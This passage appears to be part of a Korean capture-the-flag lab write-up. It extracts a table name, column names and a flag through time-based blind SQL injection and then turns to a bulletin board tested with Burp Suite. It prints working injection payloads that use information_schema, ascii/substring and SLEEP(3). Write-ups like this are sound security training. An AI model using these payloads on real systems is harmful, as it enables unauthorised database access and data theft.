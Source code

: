 > **테이블 결과:**
```csharp
[2 행]:
1 번째 값 = f → f
2 번째 값 = l → fl
3 번째 값 = a → fla
4 번째 값 = g → flag
5 번째 값 = _ → flag_
6 번째 값 = T → flag_T
7 번째 값 = a → flag_Ta
8 번째 값 = b → flag_Tab
9 번째 값 = l → flag_Tabl
10 번째 값 = e → flag_Table
End
```

- 컬럼 추출:
```html
views, (select if(ascii(substring((select column_name from information_schema.columns where table_schema='sqli_8' and table_name='flag_Table' limit ?, 1), ?, 1)) =?, SLEEP(3), 0))
```

> **컬럼 결과:**
```csharp
1. idx
2. flagData
3.
4.
5.
```

- 플래그 추출:
```html
views, (select if(ascii(substring((select flagData from flag_Table limit ?, 1), ?, 1)) =?, SLEEP(3), 0))
```

![플래그](./screenshots/sqli_8_flag.png)

**이렇게 최종적으로 flag를 획득하였다.**

---

### SQL Injection 4

- 이제 게시판에 접근하여, 게시물 관련 기능에서 SQL Injection이 가능한 지점을 탐색해보겠다.

[게시판 접속](./screenshots/sqli_9.png)

- 이제 Burp Suite를 활용해 SQL Injection 포인트를 직접 탐색해보겠다.
